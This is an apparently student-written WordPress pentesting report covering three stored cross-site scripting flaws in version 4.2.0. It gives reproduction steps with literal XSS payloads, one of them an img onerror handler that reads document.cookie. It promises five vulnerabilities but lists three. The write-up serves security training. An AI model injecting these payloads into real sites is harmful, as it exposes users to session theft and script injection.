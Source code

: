 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary:
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2.0
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough:
      <img src='ex1gif.gif' title='' width='' alt='' />
  - [ ] Steps to recreate:
       - Save image named xyz<img src=a onerror=alert(document.cookie)>.jpg
       - log in to admin
       - upload image
       - open image location

  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
2. Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary:
    - Vulnerability types: Cross Site Scripting
    - Tested in version: 4.2.0
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough:
      <img src='ex2.gif' title='' width='' alt='' />
  - [ ] Steps to recreate:
        - inspect element
        - edit as html
        - paste code "<a href="</a><a title=" onmouseover=alert('test')  ">link</a>"
        - hover over link
  - [ ] Affected source code:
    - [Link 2](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622)
3.  Comment Cross Site Scripting
  - [ ] Summary:
    - Vulnerability types: XSS
    - Tested in version: 4.2.0
    - Fixed in version: 4.5.2
  - [ ] GIF Walkthrough:
      <img src='ex2.gif' title='' width='' alt='' />
  - [ ] Steps to recreate:
        - post this comment "<a onmouseover="alert(unescape(/hello%20world/.source))">hello</a>"
        - hover over posted comment
  - [ ] Affected source code:
    - [Link 3](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-5776)


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

The details for the blog which explained how to walkthrough the exploit did not work usually. I had to
modify the exploit to work which took some trial and error


## License

    Copyright [2019] [Ammar Karim]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
